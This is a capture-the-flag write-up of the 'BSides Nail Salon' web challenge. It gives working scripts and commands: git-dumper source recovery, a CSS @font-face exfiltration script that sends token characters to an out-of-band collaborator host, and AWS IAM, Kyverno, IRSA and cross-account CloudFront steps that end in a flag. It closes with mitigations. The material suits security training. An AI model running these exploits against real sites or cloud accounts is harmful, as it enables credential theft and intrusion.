

# BSides Nail Salon

**BSides Vilnius 2026** · Web · Hard

## Solution Overview

A "style our webapp" CSS upload feature feeds attacker CSS into an admin bot's nonce'd `<style>` block. The CSP forgot to lock `font-src`, enabling scriptless **CSS `@font-face`/`unicode-range` exfiltration** of a hidden admin token. That token unlocks a debug endpoint leaking AWS keys, which kicks off a long cloud chain: **IAM confused-deputy `AssumeRole` → Secrets Manager → EKS → a Kyverno `apiCall`+`deny`-message cross-namespace read → IRSA token minting → an S3 bucket fronted by a CloudFront OAC bucket policy with no `aws:SourceArn` condition**. The final flag is read by standing up an attacker-owned CloudFront distribution that the victim bucket blindly trusts.

Target: `https://sidenails.com` · Account (victim): `522868276897` · Region: `us-east-1`

## Attack chain



## Tools Used

- `curl`, `git-dumper` for source recovery
- An out-of-band collaborator (interactsh) for the CSS font-exfil oracle
- The AWS CLI, `kubectl`, and `boto3`

## Artifacts

Source recovered from the exposed `.git` (the basis for every step below):

- [`challenge/server.js`](challenge/server.js) — the `/api/submit` CSS sink and the token-gated `/access` creds endpoint
- [`challenge/admin-bot.js`](challenge/admin-bot.js) — the CSP (note `font-src *`) and the hidden `#adminToken` node
- [`challenge/index.html`](challenge/index.html) — the styling front-end

## Solution

### Step 1: Source recovery via exposed `.git`

When I first poked at the site, the most interesting thing wasn't the app — it was that the web root served its `.git` directory. Directory listing was **off** (`/.git/` → 404) and the raw source paths weren't served (`/server.js` → 404), but the individual Git plumbing files were readable, which is all you need to reconstruct the repo.

```bash
for p in /.git/HEAD /.git/config /.git/index /.git/logs/HEAD /.git/refs/heads/main; do
  printf '%-26s ' "$p"; curl -s -o /dev/null -w '%{http_code}\n' "https://sidenails.com$p"
done
# /.git/HEAD               200
# /.git/config             200
# /.git/index              200
# /.git/logs/HEAD          200
# /.git/refs/heads/main    200
```

The plumbing files gave up the metadata:

```bash
curl -s https://sidenails.com/.git/HEAD            # ref: refs/heads/main
curl -s https://sidenails.com/.git/refs/heads/main # 223af001a55d571e95ffa0903e2199cb3d7ea4f8
curl -s https://sidenails.com/.git/logs/HEAD
# 0000... 223af001a55d571e95ffa0903e2199cb3d7ea4f8 Ugnius <smooth@enumeration.git> ... commit (initial): initial commit
```

A single initial commit. Since directory listing was disabled, `git-dumper` walks the objects (it parses `HEAD`/`index`/`refs` and fetches loose objects), and a checkout gives the tree:

```bash
pip install git-dumper
git-dumper https://sidenails.com/.git/ ./loot
cd loot && git checkout .
git ls-files          # admin-bot.js  index.html  server.js
```

Reading `server.js`, `admin-bot.js`, and `index.html` (commit `223af00`, author `Ugnius <smooth@enumeration.git>`) laid out the entire intended path:

- `server.js` `/api/submit` accepts JSON `{customCSS}`, validates it only with `css-tree.parse()` (a syntactic check, no sanitisation), then queues it to an admin bot.
- `server.js` `/access?token=ADMIN_TOKEN` returns `process.env.ACCESS_KEY_ID` / `process.env.SECRET_KEY` (AWS creds) — gated solely by the admin token.
- `admin-bot.js` renders our CSS in headless Chromium inside this document:

    ```html
    <meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; object-src 'none'; img-src 'self';
               style-src 'self' 'nonce-RANDOM'; font-src 'self' *;">   <!-- font-src * ! -->
    <style nonce="RANDOM">...</style>
    <style nonce="RANDOM">${ourCSS}</style>                 <!-- our CSS runs -->
    ...
    <p id="adminToken" class="d-none">${token}</p>          <!-- .d-none{display:none!important} -->
    ```

- The token is 32 chars from `[a-zA-Z0-9]` and then `.sort()`ed, so it's fully determined by **which characters are present** — per-character presence is enough to reconstruct it.

### Step 2: Leak the admin token via CSS font exfiltration

**The "aha":** I control CSS that renders next to a hidden secret, scripts are blocked by CSP, `img-src` is `'self'`… but `font-src 'self' *` is wide open. Webfonts are an oracle.

Two CSP gaps make the scriptless leak work:

- `img-src 'self'` blocks image-based exfil, but `font-src 'self' *` allows fonts from **any** origin → webfont loads become the signal.
- Our CSS runs in a nonce'd block, and the token node is `display:none` via the class rule `.d-none{display:none!important}`. An **ID** selector (`#adminToken`, specificity 1,0,0) with `!important` beats that class rule (0,1,0), so I can reveal it — and hidden text loads no fonts.

For each of the 62 alphabet chars I declare one `@font-face` (same family `L`) with a `unicode-range` for that codepoint and a unique callback URL. When the revealed token contains a char, Chromium downloads exactly that face, and the OOB server records the index. Reconstruct by sorting the present chars (the server sorts by codepoint: digits < upper < lower — same order the app's `.sort()` uses).

```python
#!/usr/bin/env python3
# Step 1 solve: leak the sorted admin token via CSS @font-face/unicode-range.
# OOB capture done with interactsh (any wildcard HTTP collaborator works).
import re, time, requests, subprocess, json

TARGET = "https://sidenails.com/api/submit"
DICT   = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# Your interactsh/collaborator correlation domain (one wildcard cert level: *.<root>):
CID    = "d8ealc2c1a9j62oqf3dgpnmgk3w1y1iqo.o.zeba.dev"   # <-- replace with yours

# Build 62 @font-face rules + reveal the hidden token. The path encodes the
# char index (case-preserving, unlike DNS subdomains).
rules = [
    f"@font-face{{font-family:L;src:url(https://{CID}/x?i={i});unicode-range:U+{ord(c):04X};}}"
    for i, c in enumerate(DICT)
]
rules.append("#adminToken{font-family:L!important;display:block!important;visibility:visible!important;}")
css = "".join(rules)

r = requests.post(TARGET, json={"customCSS": css}, timeout=30)
print("submit:", r.status_code, r.json())   # -> "Admin bot is reviewing it now."
time.sleep(20)                               # bot renders ~7s + queue latency

# Pull captured callbacks (here: read interactsh-client -json -o log).
present = set()
for line in open("/tmp/interactsh.log"):
    for i in re.findall(r"GET /x\?i=(\d+)", line):
        present.add(int(i))

token = "".join(sorted(DICT[i] for i in present))   # server does .sort() too
print(f"present chars ({len(present)}):", token)
assert len(token) == 32, "expected 32-char token"
print("ADMIN_TOKEN =", token)
```

```
submit: 200 {'message': 'Submission received! Admin bot is reviewing it now.'}
present chars (32): 1456CDFGHIJKLMNOPRWXYZabcdfgijkq
ADMIN_TOKEN = 1456CDFGHIJKLMNOPRWXYZabcdfgijkq
```

### Step 3: Trade the token for AWS credentials

The recovered source told me exactly what the token was for — the `/access` debug endpoint:

```bash
curl -s "https://sidenails.com/access?token=1456CDFGHIJKLMNOPRWXYZabcdfgijkq"
# DEBUG USER ACCESS
# ACCESS-KEY: AKIA‹redacted-access-key-id›
# SECRET-KEY: ‹redacted-secret-access-key›
# REGION: us-east-1
```

```bash
export AWS_ACCESS_KEY_ID=AKIA‹redacted-access-key-id›
export AWS_SECRET_ACCESS_KEY=‹redacted-secret-access-key›
export AWS_DEFAULT_REGION=us-east-1
aws sts get-caller-identity            # arn: iam::522868276897:user/debug-user
```

### Step 4: IAM confused-deputy — assume `internal-debug-role`

`debug-user` couldn't read its own policies, but `iam:ListRoles` was allowed — and listing roles surfaced `internal-debug-role`, whose **trust policy explicitly trusts `user/debug-user`**. That's a confused deputy: the low-privilege user I already had is named as a trusted principal of a higher-privilege role.

```bash
aws iam list-roles --query "Roles[?RoleName=='internal-debug-role'].AssumeRolePolicyDocument"
# Principal: {"AWS":"arn:aws:iam::522868276897:user/debug-user"}, Action: sts:AssumeRole

eval $(aws sts assume-role \
  --role-arn arn:aws:iam::522868276897:role/internal-debug-role \
  --role-session-name pwn \
  --query 'Credentials.[`export AWS_ACCESS_KEY_ID=`+AccessKeyId,
           `export AWS_SECRET_ACCESS_KEY=`+SecretAccessKey,
           `export AWS_SESSION_TOKEN=`+SessionToken]' --output text | tr "\t" "\n")
```

### Step 5: Secrets Manager → EKS kubeconfig

The new role could `secretsmanager:ListSecrets`/`GetSecretValue`:

```bash
aws secretsmanager list-secrets --query 'SecretList[].Name'      # kubeconfig-access-5287
aws secretsmanager get-secret-value --secret-id kubeconfig-access-5287 \
    --query SecretString --output text > kubeconfig.yaml
```

The secret was a kubeconfig for EKS cluster `breached`, authenticated as service account `system:serviceaccount:default:low` — plus a note that the admin's sensitive **`notes` configmap in the `restricted` namespace** had been "breached". That told me where the next flag-shaped thing lived.

### Step 6: Kubernetes privesc — Kyverno apiCall + deny-message exfiltration

`low`'s RBAC was tiny but, as it turned out, lethal:

```
configmaps                 [create]            # in default ns
serviceaccounts/token      [create]  (low)     # can mint its own OIDC tokens
policies.kyverno.io        [get list]
namespaces                 [list]
```

Reading the namespaced Kyverno `Policy` objects in `default` revealed `cross-ns-exfil` — a policy whose `context.apiCall` is executed by **Kyverno's privileged service account**, with the target path taken from the triggering object's annotations, and whose deny message *echoes the fetched data back*:

```yaml
# A validate policy whose context.apiCall is executed by Kyverno's PRIVILEGED SA,
# with the target path taken from the triggering object's annotations, and whose
# deny message echoes the fetched data:
rules:
- name: lconfig
  match: { resources: { kinds: [ConfigMap] } }
  context:
  - name: ldata
    apiCall:
      urlPath: /api/v1/namespaces/{{request.object.metadata.annotations.target_ns}}/configmaps/{{request.object.metadata.annotations.target_name}}
      jmesPath: data."notes.txt"
  validate:
    deny: {}                       # always deny
    message: 'DATA: {{ldata}}'     # ...and leak the data in the error
  validationFailureAction: Enforce
```

`low` can `create` configmaps, so I created one annotated to point Kyverno at the restricted configmap. The admission denial returned the data — and the trick is to use `create`, not `apply`, because `apply` needs `get`, which `low` lacks:

```bash
export KUBECONFIG=kubeconfig.yaml
kubectl create -f - <<'EOF'
apiVersion: v1
kind: ConfigMap
metadata:
  name: pwn-trigger
  namespace: default
  annotations:
    target_ns: restricted
    target_name: notes
data: { x: "y" }
EOF
# Error from server: admission webhook denied the request:
# cross-ns-exfil:
#   lconfig: |
#     DATA: Tasks:
#     ...
#     Security Engineer told me something is off with that
#     "7028c2a34f64b1a36f1d-bsides-loot-storage" bucket: MEH Probably can be taken care later
```

→ loot bucket: **`7028c2a34f64b1a36f1d-bsides-loot-storage`**.

### Step 7: IRSA token minting → list the bucket

`low` can `create serviceaccounts/token`, and the IRSA role `low-sa-irsa` trusts the cluster OIDC provider for `sub=system:serviceaccount:default:low`, `aud=sts.amazonaws.com`. So I minted that token and assumed the role:

```bash
TOKEN=$(kubectl create token low --audience sts.amazonaws.com --duration 3600s)

eval $(aws sts assume-role-with-web-identity \
  --role-arn arn:aws:iam::522868276897:role/low-sa-irsa \
  --role-session-name low-irsa --web-identity-token "$TOKEN" \
  --query 'Credentials.[`export AWS_ACCESS_KEY_ID=`+AccessKeyId,
           `export AWS_SECRET_ACCESS_KEY=`+SecretAccessKey,
           `export AWS_SESSION_TOKEN=`+SessionToken]' --output text | tr "\t" "\n")

aws s3 ls s3://7028c2a34f64b1a36f1d-bsides-loot-storage/   #  flag.txt (52 bytes)
aws s3api get-bucket-policy --bucket 7028c2a34f64b1a36f1d-bsides-loot-storage --output text
```

So close, and yet: `low-sa-irsa` can `ListBucket` but **not** `GetObject`. The flag was right there and I couldn't read it directly. The bucket policy is the intended misconfiguration:

```json
{"Version":"2012-10-17","Statement":[{
  "Sid":"SoClose",
  "Effect":"Allow",
  "Principal":{"Service":"cloudfront.amazonaws.com"},
  "Action":"s3:GetObject",
  "Resource":"arn:aws:s3:::7028c2a34f64b1a36f1d-bsides-loot-storage/*"
}]}
```

It trusts the **entire CloudFront service** with **no `aws:SourceArn` / `aws:SourceAccount` condition** — so *any* CloudFront distribution, in *any* AWS account, may read it. That's the CloudFront OAC cross-account confused deputy, and the `Sid` ("SoClose") is the author trolling me.

### Step 8: CloudFront OAC confused deputy → read the flag

From my own AWS account, I created an Origin Access Control and a distribution whose origin is the *victim's* bucket, waited for it to deploy, and fetched the object — the bucket trusts my distribution because of the missing condition.

```python
#!/usr/bin/env python3
# Step 7: attacker-owned CloudFront distribution reads the cross-account bucket.
import boto3, time
BUCKET = "7028c2a34f64b1a36f1d-bsides-loot-storage"
cf = boto3.Session(profile_name="attacker", region_name="us-east-1").client("cloudfront")

oac = cf.create_origin_access_control(OriginAccessControlConfig={
    "Name": "pwn-oac", "SigningProtocol": "sigv4",
    "SigningBehavior": "always", "OriginAccessControlOriginType": "s3"})["OriginAccessControl"]["Id"]

dist = cf.create_distribution(DistributionConfig={
    "CallerReference": str(time.time()), "Comment": "pwn", "Enabled": True,
    "Origins": {"Quantity": 1, "Items": [{
        "Id": "s3", "DomainName": f"{BUCKET}.s3.us-east-1.amazonaws.com",
        "OriginAccessControlId": oac, "S3OriginConfig": {"OriginAccessIdentity": ""}}]},
    "DefaultCacheBehavior": {
        "TargetOriginId": "s3", "ViewerProtocolPolicy": "allow-all",
        "ForwardedValues": {"QueryString": False, "Cookies": {"Forward": "none"}},
        "MinTTL": 0, "TrustedSigners": {"Enabled": False, "Quantity": 0}}})["Distribution"]
domain = dist["DomainName"]
cf.get_waiter("distribution_deployed").wait(Id=dist["Id"])   # ~3-5 min

import urllib.request
print(urllib.request.urlopen(f"https://{domain}/flag.txt").read().decode())
```

```bash
$ python3 step7.py
BSIDES{Nev3r_f0rg3t_aws:SourceArn-Condition_0r_3l53}
```

(Clean up afterwards: disable the distribution, wait for redeploy, then `delete-distribution` and `delete-origin-access-control`.)

## Flag

```
BSIDES{Nev3r_f0rg3t_aws:SourceArn-Condition_0r_3l53}
```

## Lessons / mitigations

- **CSP:** `font-src *` is an exfil channel; webfonts with `unicode-range` leak text character-by-character even with `img-src 'self'` and no JS. Lock font sources and don't render secrets in the same DOM as untrusted CSS.
- **IAM:** don't let a low-trust user be a `Principal` in a privileged role's trust policy (confused deputy). Don't store live kubeconfigs in Secrets Manager reachable by debug roles.
- **Kyverno:** policies whose `apiCall` paths are built from user-controlled fields and whose `deny` message echoes fetched data turn the policy engine's privileged SA into a universal read primitive.
- **EKS/IRSA:** `serviceaccounts/token` create lets a pod mint OIDC tokens and assume its IRSA role — scope IRSA role permissions tightly.
- **S3 + CloudFront OAC:** always constrain the `cloudfront.amazonaws.com` bucket-policy grant with `aws:SourceArn` (the distribution ARN). Without it the bucket is readable by anyone's distribution — exactly what the flag says.

---

[← Back to BSides Vilnius 2026](../../README.md)
